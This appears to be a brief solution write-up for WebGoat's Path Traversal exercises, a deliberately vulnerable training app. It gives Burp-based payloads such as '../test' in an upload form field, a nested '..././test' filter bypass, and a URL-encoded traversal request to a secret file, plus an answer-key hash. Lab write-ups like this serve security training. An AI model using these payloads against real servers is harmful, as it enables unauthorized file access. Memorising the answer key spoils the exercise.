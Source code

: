 # Path traversal

## task 2

send request, catch with burp send to repeater, make change in form data field to change upload location

```
Content-Disposition: form-data; name="fullName"

../test
```

## task 3

Same before, application remove accurences of ../, but not nested recursivly, change form-data to

```
..././test
```

## task 4

Catch request in burp and change ( line 15) test to ../test

## task 5

```
send response ( get random cat image)
```

```
catch response with burp and see that we can create get request
```

```
GET /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret HTTP/1.1
```

```
online converter sha512
https://emn178.github.io/online-tools/sha512.html
```

```
answer:7fcf4ba391c48784edde599889d6e3f1e47a27db36ecc050cc92f259bfac38afad2c68a1ae804d77075e8fb722503f3eca2b2c1006ee6f6c7b7628cb45fffd1d
```
